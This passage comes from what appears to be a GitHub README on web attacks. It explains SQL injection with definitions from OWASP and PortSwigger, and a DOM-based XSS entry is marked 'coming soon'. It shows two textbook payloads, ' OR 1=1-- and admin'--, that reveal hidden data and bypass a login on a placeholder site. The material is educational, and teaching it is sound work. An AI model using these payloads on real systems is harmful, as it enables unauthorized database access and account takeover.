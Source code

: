 > ```

> <hr>

> **DOM-based XSS**<br>
> coming soon...
>

### SQLi (SQL Injection)
**What is SQLi or SQL Injection?**<br>
> An injection attack that inserts malicious SQL commands into vulnerable inputs, allowing attackers to execute unauthorized SQL queries. This can grant access to server databases and expose sensitive user information stored within them. - [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

**How to perform SQLi?**<br>
> **Retrieving Hidden Data**<br>
> Retrieving hidden data occurs when attackers exploit vulnerable inputs to manipulate database queries to show hidden data.<br>
> <br>
> **Expected Behavior:**
> ```sql
> https://insecure-website.com/products?category=Gifts
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> ```
> 
> **Unexpected Malicious Behavior:**
> ```sql
> https://insecure-website.com/products?category=Gifts'+OR+1=1--
> SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
> -- Return all products in 'Gifts' category including not released products.
> ```
> [https://portswigger.net/web-security/sql-injection#retrieving-hidden-data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data)

> <hr>

> **Subverting Application Logic**<br>
> Subverting application logic occurs when attackers exploit SQL injection to bypass login checks.<br>
> <br>
> **Expected Behavior:**
> ```sql
> SELECT * FROM users WHERE username = 'test' AND password = '1234'
> -- Login into user 'test`
> -- AND the password is '1234'
> ```
>
> **Unexpected Malicious Behavior:**
> ```sql
> SELECT * FROM users WHERE username = 'admin'--' AND password = ''
> -- Login into user 'admin` -> Login into user 'admin' (No password required.)
> -- AND the (?) comment for this line is: ' AND password = ''
> ```
> [https://portswigger.net/web-security/sql-injection#subverting-application-logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic)
